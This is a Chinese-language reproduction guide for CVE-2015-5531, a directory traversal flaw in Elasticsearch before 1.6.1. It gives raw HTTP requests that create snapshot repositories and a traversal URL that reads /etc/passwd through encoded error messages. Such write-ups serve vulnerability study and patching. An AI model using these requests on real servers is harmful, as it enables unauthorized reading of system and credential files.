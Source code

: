 （CVE-2015-5531）ElasticSearch 目录穿越漏洞
===========================================

一、漏洞简介
------------

elasticsearch
1.5.1及以前，无需任何配置即可触发该漏洞。之后的新版，配置文件elasticsearch.yml中必须存在`path.repo`，该配置值为一个目录，且该目录必须可写，等于限制了备份仓库的根位置。不配置该值，默认不启动这个功能。

二、漏洞影响
------------

ElasticSearch 1.6.1以下

三、复现过程
------------

### 1. 新建一个仓库

    PUT /_snapshot/test HTTP/1.1
    Host: your-ip:9200
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 108

    {
        "type": "fs",
        "settings": {
            "location": "/usr/share/elasticsearch/repo/test" 
        }
    }

![](./resource/(CVE-2015-5531)ElasticSearch目录穿越漏洞/media/rId25.png)

### 2. 创建一个快照

    PUT /_snapshot/test2 HTTP/1.1
    Host: your-ip:9200
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 108

    {
        "type": "fs",
        "settings": {
            "location": "/usr/share/elasticsearch/repo/test/snapshot-backdata" 
        }
    }

![](./resource/(CVE-2015-5531)ElasticSearch目录穿越漏洞/media/rId27.png)

### 3. 目录穿越读取任意文件

访问
`http://www.0-sec.org:9200/_snapshot/test/backdata%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd`

![](./resource/(CVE-2015-5531)ElasticSearch目录穿越漏洞/media/rId29.png)

如上图，在错误信息中包含文件内容（编码后），对其进行解码即可获得文件：

![](./resource/(CVE-2015-5531)ElasticSearch目录穿越漏洞/media/rId30.png)

参考链接
--------

> https://vulhub.org/\#/environments/elasticsearch/CVE-2015-5531/
